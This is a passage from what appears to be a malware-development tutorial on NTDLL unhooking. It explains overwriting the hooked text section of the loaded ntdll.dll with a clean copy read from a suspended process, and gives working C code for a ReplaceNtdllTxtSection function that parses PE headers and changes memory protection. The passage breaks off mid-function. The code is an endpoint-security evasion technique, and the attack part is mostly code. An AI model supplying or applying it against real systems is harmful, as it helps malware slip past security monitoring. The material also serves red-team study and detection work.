 Once a fresh copy of `ntdll.dll` has been successfully retrieved, the next step is to overwrite the hooked text section with the clean one. This is achieved using the `ReplaceNtdllTxtSection` function, as demonstrated in previous modules.

Note that the unhooked copy of `ntdll.dll` was read from a memory region where it was mapped, being the suspended process's address space. This means that the offset to the text section of the clean NTDLL file is `IMAGE_SECTION_HEADER.VirtualAddress` (4096).


```
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID               pLocalNtdll      = (PVOID)FetchLocalNtdllBaseAddress();

	// getting the dos header
	PIMAGE_DOS_HEADER   pLocalDosHdr      = (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS   pLocalNtHdrs      = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return FALSE;


	PVOID		pLocalNtdllTxt	= NULL,	// local hooked text section base address
			    pRemoteNtdllTxt  = NULL; // the unhooked text section base address
	SIZE_T		sNtdllTxtSize	= NULL;	// the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
			pLocalNtdllTxt	= (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
			pRemoteNtdllTxt	= (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
			sNtdllTxtSize	= pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}

//---------------------------------------------------------------------------------------------------------------------------

	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;

	// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
	if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
		return FALSE;

//---------------------------------------------------------------------------------------------------------------------------

	DWORD dwOldProtection = NULL;

	// making the text section writable and executable
	if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
		printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
```